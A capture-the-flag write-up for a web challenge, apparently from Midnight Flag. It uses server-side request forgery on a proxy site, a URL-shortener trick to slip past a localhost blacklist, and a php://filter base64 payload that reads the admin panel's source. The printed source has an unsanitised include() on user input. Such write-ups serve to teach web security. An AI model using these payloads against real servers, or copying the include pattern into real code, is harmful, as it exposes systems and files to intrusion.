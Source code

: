 # Browser In Browser

## Instructions

> Une entreprise vous propose de naviguer sur internet à l'aide de leur site web.
>
> Cela permet de faire passer les sites à visiter dans une sandbox, permettant d'éviter la visite de site malveillant. Etant une version alpha, vous êtes mandaté pour auditer ce site web.
>
> Accès au challenge [ici](http://bib.ctf.midnightflag.fr/)

## Challenge

We are on a website that can be used as a proxy for other websites
![](https://i.imgur.com/HZuWSRm.png)

We can think that the request is made directly form chall's server, and that we could exploit this to get informations only seen server-side.

One think we could think would be to request for http://127.0.0.1 to access an administration console

![](https://i.imgur.com/h5FaAjy.png)

Unfortunately, we are unauthorized, but it means that the url could be filtered to see if it is not blacklisted. We now search a way to bypass this filtering.

## Bypass filtering

If 127.0.0.1 is really in a blacklist, it means that we could just [shorten](https://bitly.com/) it to bypass the blacklist

Thus, we send the localhost's shortened url and bingo !
![](https://i.imgur.com/zbgc7SR.png)

Now, with the shortened version of this url http://127.0.0.1/admin_panel.php, we got this message
![](https://i.imgur.com/yAs5HZC.png)

It means that we can use a `viewFile` function to display a file, such as the source code for admin_panel.php for example.

But be careful to see plain text for a php file. Since the subpage is shown via and `include()`, the php file could be interpreted.

To bypass this issue, one technique is to use a base64 filter to encode the php file, to decode it later.

With those informations, our payload looks like this

http://127.0.0.1/admin_panel.php?**action=viewFile**&file=php://filter/read=convert.**base64-encode**/resource=admin_panel.php

However, it looks like the server add an additional .php

![](https://i.imgur.com/tHD5CEc.png)

so we remove it :

http://127.0.0.1/admin_panel.php?**action=viewFile**&file=php://filter/read=convert.**base64-encode**/resource=admin_panel

We shorten it and bingo !

![](https://i.imgur.com/lQIpMIN.png)

We [decode](https://www.base64decode.org/) it and double bingo !

```php
<?php
session_start();
//MCTF{________}
if($_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
    die("<!DOCTYPE html><html><head><title>Unauthorize</title></head><body><h1>403 Forbidden.</h1></body></html>");
}
if(!isset($_GET['action'])){
    die("Missing action.<br>Available action are: viewUsers, viewFile, ...");
}else{
    if($_GET['action'] === 'viewUsers') die('Database not implemented.<br>Only one user: guest with password guest.');
    if($_GET['action'] === 'viewFile'){
        if(isset($_GET['file'])){
            include($_GET['file'].".php");
        }else{
            die('Missing file.');
        }
    }
}
?>
<!DOCTYPE html>
<html>
<head>
    <title>Admin panel 1.0</title>
</head>
<body></body>
</html>

```